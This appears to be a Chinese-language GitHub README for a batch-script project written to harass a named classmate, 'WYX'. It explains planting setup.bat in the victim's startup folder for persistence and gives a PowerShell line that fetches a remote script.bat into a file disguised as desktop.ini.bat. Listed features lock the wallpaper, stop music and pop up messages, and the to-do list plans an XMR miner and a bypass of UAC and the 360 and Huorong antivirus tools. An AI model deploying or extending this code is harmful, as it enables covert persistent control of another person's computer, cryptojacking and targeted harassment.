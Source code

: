 # FuckWYXBatch
>WYX就是歌姬吧

## 项目初衷
WYX是班上的风云人物，电脑大师

## 我班上也有这种\*\*，如何使用？

- setup.bat放置在%appdata%的任务栏启动内，即可使其开机自启

- 在系统盘(C:)新建文件夹`g35rj4ks3g5tgrd1vt1rdgfv6t48rb6dy7v`，将setup.bat单独运行

## 系统要求

Windows 7 及更新的任何版本的Windows

## Features | 特色

- 壁纸锁定

- 关闭音乐

- 定时自动更新

- ~~开源免费~~

## Deploy | 部署

只需要克隆本仓库并修改脚本中的链接即可
```diff
:: setup.bat
- C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe $client = new-object System.Net.WebClient;$client.DownloadFile('https://github.com/xiaozhu2007/FuckWYXBatch/blob/main/script.bat?raw=true' , 'C:\Users\Public\Documents\desktop.ini.bat');exit
+ C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe $client = new-object System.Net.WebClient;$client.DownloadFile('https://github.com/Your User/Your Repo/blob/main/script.bat?raw=true' , 'C:\Users\Public\Documents\desktop.ini.bat');exit
```
壁纸存放在网站根目录的doge.jpg，不设置会在开机自启时导致壁纸消失

## Todo List

[ ] Add `XMR Miner Deploy`

[x] Add 弹窗

[ ] Bypass `UAC/360/Huorong`